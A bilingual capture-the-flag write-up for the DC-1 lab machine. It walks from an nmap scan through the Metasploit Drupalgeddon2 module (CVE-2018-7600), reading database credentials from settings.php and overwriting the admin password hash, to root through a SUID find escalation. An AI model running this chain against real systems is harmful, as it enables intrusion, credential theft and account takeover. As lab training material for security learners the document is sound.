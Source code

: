 ```yaml
---

# ✅ DC-1 渗透笔记增强版

---
```


## 🧭 信息收集 | Information Gathering

### 🔹 使用 nmap 获取端口与服务信息  
Run nmap to discover open ports and service versions:

```apl
nmap -sS -sV -T4 -Pn <target_ip>
```

发现 Web 服务运行 Drupal 7。通过访问首页与使用工具（如 WhatWeb、Dirsearch）确认 CMS 类型。
 Drupal 7 CMS detected via webpage banner and WhatWeb/Dirsearch scans.

------

## 🎯 漏洞利用 | Exploitation

### 🔹 使用 Metasploit 框架的 Drupal 7 RCE 模块（CVE-2018-7600）

```apl
msfconsole
search drupal 7
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOST <ip>
set TARGETURI /
run
```

该模块利用 Drupalgeddon2（CVE-2018-7600）远程代码执行漏洞实现反弹 Shell。

> This exploit takes advantage of Drupal 7's RCE vulnerability to gain remote access.

------

## 🧱 获取稳定 shell | Gaining a Stable Shell

```apl
python -c "import pty; pty.spawn('/bin/bash')"
```

通过 Python 获取伪终端，提升交互稳定性。
 Spawns a pseudo-terminal to improve shell usability.

------

## 🔐 查找敏感文件 | Locating Configuration Files

目标提示检查 Drupal 的配置文件，通常位于：

```apl
find / -name settings.php 2>/dev/null
```

文件包含数据库凭据，可尝试登录数据库。
 The file stores database credentials, useful for privilege escalation.

------

## 🛢️ 数据库访问 | Accessing the Database

```apl
mysql -u <username> -p
```

使用 `settings.php` 中的凭据成功连接数据库，查询 `users` 表获取管理员信息。
 Logged into MySQL using credentials and retrieved admin hash from `users` table.

------

## 🔁 替换 Drupal 管理员密码 | Replacing Drupal Admin Password

使用 Drupal 提供的脚本生成新密码的哈希：

```apl
cd scripts
php password-hash.sh 123456
```

使用以下语句替换用户密码：

```sql
UPDATE drupaldb.users SET pass='<new_hash>' WHERE name='admin';
```

登录后台验证是否成功更换密码。
 Replaced admin password and verified login via web interface.

------

## 🧩 查找提权点 | Privilege Escalation

使用以下命令查找具有 SUID 权限的程序：

```apl
find / -user root -perm -4000 -print 2>/dev/null
```

发现 `/usr/bin/find` 可被利用进行提权。
 Found a vulnerable `find` binary with SUID bit set.

------

## 🚀 使用 find 提权 | Privilege Escalation via `find`

```apl
touch exploit
find exploit -exec /bin/sh \;
whoami
```

提权成功，获得 root 权限。
 Successfully escalated privileges and gained root shell.

------

## 🏁 总结 | Summary

- 信息收集确认 Drupal 版本
- 利用 CVE-2018-7600 获取 shell
- 查找配置文件，进入数据库，替换 admin 密码
- 使用 SUID 程序提权获得 root

> A complete Drupal RCE + privilege escalation chain, ideal for beginner red teamers.

